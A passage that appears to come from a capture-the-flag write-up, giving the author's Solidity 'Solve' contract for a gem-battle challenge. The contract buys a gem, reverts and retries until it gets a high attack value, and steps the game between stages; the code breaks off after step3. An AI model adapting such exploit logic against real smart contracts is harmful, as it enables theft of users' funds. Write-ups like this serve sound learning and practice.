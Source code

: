 ![omg a readable stack trace](assets/stacktrace.png)

After a concerningly long amount of testing, this was my final contract:

```solidity
// SPDX-License-Identifier: WTFPL-2.0
pragma solidity ^0.8.22;

import { Gem, Land, Master } from "./Land.sol";

error RoundFailedTryAgain(Gem gem, uint256 round, int256 health);
error BadGemTryAgain(Gem gem);
error BadGem(Gem gem);

contract Solve is Master {
    Land public land;
    uint8 public step;

    constructor(Land _land) payable {
        require(msg.value >= 1 ether, "i need at least 1 etheroos");

        land = _land;
        land.register_master();
        step = 0;
    }

    // build our first gem and battle to stage 1
    function step1() external {
        require(step == 0, "not ready for step");
        step += 1;
        Gem memory gem = land.create_gem{value: 1 ether}();
        land.assign_gem(0);
        if (gem.attack < 240) {
            revert BadGemTryAgain(gem);
        }
    }

    // tie stage 1 to go back to stage 0
    function step2() external {
        require(step == 1 && land.stage() == 1, "not ready for step");
        if (fetchCurrentGem().status != 1) {
            revert BadGem(fetchCurrentGem());
        }
        step += 1;
    }

    // battle to stage 1 again
    function step3() external {
        require(step == 2 && land.stage() == 0, "not ready for step");
        if (fetchCurrentGem().status != 1) {
            revert BadGem(fetchCurrentGem());
        }
        step += 1;
    }
```